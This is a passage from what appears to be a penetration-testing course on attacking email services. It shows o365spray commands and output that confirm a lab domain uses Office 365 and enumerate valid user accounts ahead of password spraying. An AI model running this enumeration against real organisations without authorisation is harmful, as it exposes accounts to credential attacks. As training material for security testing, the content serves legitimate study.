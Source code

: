 
## Cloud Enumeration

As discussed, cloud service providers use their own implementation for email services. Those services commonly have custom features that we can abuse for operation, such as username enumeration. Let's use Office 365 as an example and explore how we can enumerate usernames in this cloud platform.

[O365spray](https://github.com/0xZDH/o365spray) is a username enumeration and password spraying tool aimed at Microsoft Office 365 (O365) developed by [ZDH](https://twitter.com/0xzdh). This tool reimplements a collection of enumeration and spray techniques researched and identified by those mentioned in [Acknowledgments](https://github.com/0xZDH/o365spray#Acknowledgments). Let's first validate if our target domain is using Office 365.

#### O365 Spray

Attacking Email Services

```shell-session
frank-106@htb[/htb]$ python3 o365spray.py --validate --domain msplaintext.xyz

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > validate       :  True
   > timeout        :  25 seconds
   > start          :  2022-04-13 09:46:40

>----------------------------------------<

[2022-04-13 09:46:40,344] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-13 09:46:40,743] INFO : [VALID] The following domain is using O365: msplaintext.xyz
```

Now, we can attempt to identify usernames.

Attacking Email Services

```shell-session
frank-106@htb[/htb]$ python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz        
                                       
            *** O365 Spray ***             

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > enum           :  True
   > userfile       :  users.txt
   > enum_module    :  office
   > rate           :  10 threads
   > timeout        :  25 seconds
   > start          :  2022-04-13 09:48:03

>----------------------------------------<

[2022-04-13 09:48:03,621] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-13 09:48:04,062] INFO : [VALID] The following domain is using O365: msplaintext.xyz
[2022-04-13 09:48:04,064] INFO : Running user enumeration against 67 potential users
[2022-04-13 09:48:08,244] INFO : [VALID] lewen@msplaintext.xyz
[2022-04-13 09:48:10,415] INFO : [VALID] juurena@msplaintext.xyz
[2022-04-13 09:48:10,415] INFO : 

[ * ] Valid accounts can be found at: '/opt/o365spray/enum/enum_valid_accounts.2204130948.txt'
```